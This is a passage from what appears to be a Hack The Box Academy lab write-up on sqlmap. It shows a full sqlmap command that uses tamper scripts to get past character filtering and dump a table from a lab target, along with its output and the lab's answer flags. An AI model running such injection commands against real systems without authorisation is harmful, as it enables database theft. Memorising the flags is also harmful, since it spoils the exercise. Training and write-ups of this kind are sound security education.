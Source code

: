 **Answer**

```
HTB{y37_4n07h3r_r4nd0m1z3}
```

#### Question #13

**Question**

What's the contents of table `flag11`? (Case #11)

![Firefox - Case11 Filtering of Characters '<','>'](./assets/screenshots/sqlmap_essentials_firefox_case11_filtering_of_characters.png)

```javascript
--dump --no-cast --tamper=greatest,least --threads=10
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-6hq85a6hgr]─[~]
└──╼ [★]$ sqlmap 'http://94.237.48.226:59004/case11.php?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.48.226:59004/case11.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: PHPSESSID=31fku0s2mf7e6tl9bjhjd8dk5s' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --data-raw 'id=1*' --batch -T flag11 --dump --no-cast --tamper=greatest,least --threads=10

[SNIP]

Database: testdb
Table: flag11
[1 entry]
+----+----------------------------+
| id | content                    |
+----+----------------------------+
| 1  | HTB{5p3c14l_ch4r5_n0_m0r3} |
+----+----------------------------+

[SNIP]
```
